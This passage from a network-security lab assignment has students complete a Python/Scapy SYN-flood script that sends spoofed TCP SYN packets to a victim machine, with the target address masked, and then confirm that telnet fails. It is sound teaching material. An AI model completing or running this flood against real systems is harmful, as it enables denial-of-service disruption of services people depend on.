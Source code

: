 \subsection{Task 1.1: Launching the Attack Using Python}

We provide a Python program called \texttt{synflood.py}, but
we have intentionally left out some essential data in the code. 
This code sends out spoofed TCP SYN packets, with 
randomly generated source IP address, source port, and sequence number.
Students should finish the code and then use it to 
launch the attack on the target machine:

\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

Let the attack run for at least one minute, then try to telnet 
into the victim machine, and see whether you can succeed. 

\paragraph{Submission} Please provide the filled-in code, a screenshot of the code running, and the failed telnet connection.
In your code, make sure to explain what the code is doing and how you obtained the values.
In addition, please explain the attack and why the telnet connection failed.

\paragraph{Trouble shooting} Your attack may fail. Multiple issues can contribute to the failure 
of the attack. They are listed in the following with guidelines 
on how to address them.

